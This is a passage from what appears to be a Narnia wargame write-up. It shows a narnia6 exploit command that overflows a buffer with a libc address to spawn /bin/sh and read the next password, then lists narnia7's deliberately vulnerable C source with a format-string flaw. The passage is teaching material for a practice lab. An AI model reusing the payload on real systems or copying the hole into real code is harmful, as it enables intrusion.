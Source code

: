 Exit from debugger and try outside gdb 

```
./narnia6 `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB/bin/sh"`
```

<img src="img/Pasted image 20240721145139.png" alt="Example Image" width="1080"/>

```
$ cat /etc/narnia_pass/narnia7
```

----

**Narnia7**

```
narnia7@gibson:~$ cd /narnia/
narnia7@gibson:/narnia$ cat narnia5.c 
narnia7@gibson:/narnia$ cat narnia7.c 
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

```